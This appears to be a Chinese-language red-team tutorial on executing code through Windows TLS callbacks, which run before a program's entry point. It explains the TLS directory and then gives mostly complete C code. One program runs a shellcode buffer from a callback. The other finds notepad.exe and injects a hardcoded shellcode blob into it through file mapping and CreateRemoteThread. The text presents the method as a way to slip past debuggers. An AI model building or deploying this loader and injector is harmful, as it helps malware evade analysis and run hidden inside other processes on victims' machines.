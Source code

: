 # TLS Code Execute

## TLS简介

> 线程局部存储（Thread Local Storage，TLS）用来将数据与一个正在执行的指定线程关联起来。
>
> 进程中的全局变量与函数内定义的静态\(static\)变量，是各个线程都可以访问的共享变量。在一个线程修改的内存内容，对所有线程都生效。这是一个优点也是一个缺点。说它是优点，线程的数据交换变得非常快捷。说它是缺点，一个线程死掉了，其它线程也性命不保; 多个线程访问共享数据，需要昂贵的同步开销，也容易造成同步相关的BUG。
>
> 如果需要在一个线程内部的各个函数调用都能访问、但其它线程不能访问的变量（被称为static memory local to a thread 线程局部静态变量），这就是TLS。

TLS提供了一个回调函数\(callback function\)，在线程程初始化和终止的时候都会调用，由于回调函数会在入口点\(EP\)前执行，而调试器通常会默认在主函数入口点main设置断点，所以常常被用来作为反调试手段使用，同时回调函数允许我们自由编写任意代码，TLS分为静态TLS和动态TLS，静态TLS会把TLS相关数据硬编码在PE文件内，在本篇文章内我们使用静态TLS来实现代码执行。

## 静态TLS

TLS回调函数遵循特殊的编写约定，与dll主函数相似。

```text
typedef VOID
(NTAPI *PIMAGE_TLS_CALLBACK) (
 PVOID DllHandle, 
 DWORD Reason, //Reason 遵循dll调用时相同的参数
 PVOID Reserved
 );
```

静态TLS存储在PE头IMAGE\_DATA\_DIRECTORY DataDirectory\[9\]的位置，同其他目录表数组一样，也是8字节结构 \(VA+Size\)，从TLS的VA处，可以找到该目录的详细信息。

```text
typedef struct _IMAGE_TLS_DIRECTORY32 {   //SIZE:0x18h
    DWORD   StartAddressOfRawData;
    DWORD   EndAddressOfRawData;
    DWORD   AddressOfIndex;             // PDWORD
    DWORD   AddressOfCallBacks;         // PIMAGE_TLS_CALLBACK *
    DWORD   SizeOfZeroFill;
    DWORD   Characteristics;
} IMAGE_TLS_DIRECTORY32;
typedef IMAGE_TLS_DIRECTORY32 * PIMAGE_TLS_DIRECTORY32;
```

## 代码实现

```text
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE") 

unsigned char buf[] ="shellcode";


VOID NTAPI TlsCallBack(PVOID DllHandle, DWORD dwReason, PVOID Reserved) 
//DllHandle模块句柄、Reason调用原因、 Reserved加载方式（显式/隐式）
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		((void(WINAPI*)(void)) & buf)();
	}

}
//使用TLS需要在程序中新建一个.tls段专门存放TLS数据，申明使用
#pragma comment (linker, "/INCLUDE:__tls_used")
#pragma comment (linker, "/INCLUDE:__tls_callback")



#pragma data_seg (".CRT$XLB")
//.CRT表明是使用C RunTime机制，$后面的XLB中：X表示随机的标识
//L表示是TLS callback section，B可以被换成B到Y之间的任意一个字母，
//但是不能使用“.CRT$XLA”和“.CRT$XLZ”，因为“.CRT$XLA”和“.CRT$XLZ”是用于tlssup.obj的。
EXTERN_C PIMAGE_TLS_CALLBACK _tls_callback = TlsCallBack;
#pragma data_seg ()

int main()
{
	printf("ok");
	return 0;
}
```

## 扩展

由于TLS调用时通常已经初始化了所以进程相关信息\(DLL加载、PEB分配\)，所以理论上我们能在TLScallback函数内实现任意代码，理论上我们能在TLS实现其他任意技术,如在TLS回调函数内实现Mapping注入技术。

```text
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE") 
#pragma comment (lib, "OneCore.lib")
#include <Tlhelp32.h>

char shellcode[]=
"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
"\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
"\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
"\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
"\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
"\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
"\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
"\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
"\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
"\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
"\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
"\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
"\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
"\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
"\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
"\x68\x58\x20\x20\x20\x68\x4d\x53\x46\x21\x68\x72\x6f\x6d\x20"
"\x68\x6f\x2c\x20\x66\x68\x48\x65\x6c\x6c\x31\xc9\x88\x4c\x24"
"\x10\x89\xe1\x31\xd2\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff"
"\x55\x08";


DWORD pid;
VOID NTAPI TlsCallBack(PVOID DllHandle, DWORD dwReason, PVOID Reserved) 
{
	WCHAR lpszProcessName[] = L"notepad.exe";
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

		PROCESSENTRY32 pe;
		pe.dwSize = sizeof pe;

		if (Process32First(hSnapshot, &pe))
		{
			do {
				if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
				{
					CloseHandle(hSnapshot);
					pid = pe.th32ProcessID;
					break;
				}
			} while (Process32Next(hSnapshot, &pe));
		}

		//
		HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);

		LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));

		memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));



		HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

		LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);

		HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpMapAddressRemote, NULL, 0, NULL);

		UnmapViewOfFile(lpMapAddress);
		CloseHandle(hMapping);
	}

}

#pragma comment (linker, "/INCLUDE:__tls_used")
#pragma comment (linker, "/INCLUDE:__tls_callback")



#pragma data_seg (".CRT$XLB")
EXTERN_C PIMAGE_TLS_CALLBACK _tls_callback = TlsCallBack;
#pragma data_seg ()




int main()
{
	return 0;
}
```

![](../.gitbook/assets/image%20%2889%29.png)

## LINKS

{% embed url="http://www.hackdig.com/?03/hack-2257.htm" %}

{% embed url="https://www.cnblogs.com/kuangke/p/7590657.html" %}

{% embed url="https://blog.csdn.net/hotspurs/article/details/90298636" %}

{% embed url="https://blog.csdn.net/qq\_18218335/article/details/69357016?utm\_medium=distribute.pc\_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.nonecase&depth\_1-utm\_source=distribute.pc\_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.nonecase" %}





